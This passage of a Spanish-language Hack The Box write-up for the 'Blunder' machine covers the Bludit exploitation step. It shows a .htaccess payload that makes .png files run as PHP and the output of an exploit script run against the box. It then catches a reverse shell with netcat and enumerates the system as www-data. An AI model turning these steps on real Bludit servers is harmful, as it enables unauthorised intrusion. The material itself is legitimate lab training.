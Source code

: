 Creamos el payload2 de acuerdo con lo que nos indica el exploit:

```bash
❯ echo "RewriteEngine off" > .htaccess
❯ echo "AddType application/x-httpd-php .png" >> .htaccess
```

Ejecutamos el exploit:

```bash
❯ python3 bludit_rce.py
cookie: 9lqjvu73d8l94eu4vj44ml1uc4
csrf_token: 550b5a0bda69882d0de4407c6423bfe5d7d16cf0
Uploading payload: k4mishell.png
Uploading payload: .htaccess
```

Nos ponemos en escucha por el puerto 443 y ahora dice que debemos ingresar a la ruta `/bl-content/tmp/temp/` y deberíamos ver nuestro archivo. Por lo que al seleccionarlo deberíamos tener la conexión.

![""](/assets/images/htb-blunder/blunder-web5.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.191] 43240
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Ya nos encontramos dentro de la máquina y antes de hacer algo, vamos a realizar un [Tratamiento de la tty](/posts/tratamiento-tty). Vemos que no podemos visualizar la flag (user.txt) y tenemos que convertirnos en el usuario **hugo**; así que vamos a enumerar un poco el sistema.

```bash
www-data@blunder:/home$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@blunder:/home$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Password: 
www-data@blunder:/home$ cd /var/www/
www-data@blunder:/var/www$ grep -r -i "hugo" 2>/dev/null
bludit-3.10.0a/bl-content/databases/users.php:        "nickname": "Hugo",
```